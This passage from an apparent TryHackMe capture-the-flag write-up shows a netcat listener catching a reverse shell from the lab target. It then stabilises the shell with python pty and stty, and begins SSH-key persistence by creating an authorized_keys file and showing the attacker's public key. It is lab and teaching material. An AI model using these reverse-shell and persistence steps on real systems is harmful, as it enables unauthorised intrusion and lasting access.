 And we have initial access :

```bash
 ┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ nc -lvnp 1337    
listening on [any] 1337 ...

connect to [10.8.162.183] from (UNKNOWN) [10.10.12.222] 40840
whoami
hudson
ls
airplane
```

## Shell Stabilization

We can do [[Shell Stabilization]] :

```bash
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                
hudson@airplane:/opt$ ^Z                                                                                                      
zsh: suspended  nc -lvnp 1337                                                                                                 
                                                                                                                              
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset
hudson@airplane:/opt$ 
```

# Lateral Movement - Privilege Escalation 

## Permanence setting

We have access to the .ssh folder so let's just echo our key there, first we create a folder :

```bash
hudson@airplane:/home/hudson/.ssh$ touch authorized_keys
hudson@airplane:/home/hudson/.ssh$ ls
authorized_keys
```

Now we copy our public key on our machine :

```bash
┌──(hax㉿HaxonKali)-[~/.ssh]
└─$ cat id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg hax@HaxonKali
```
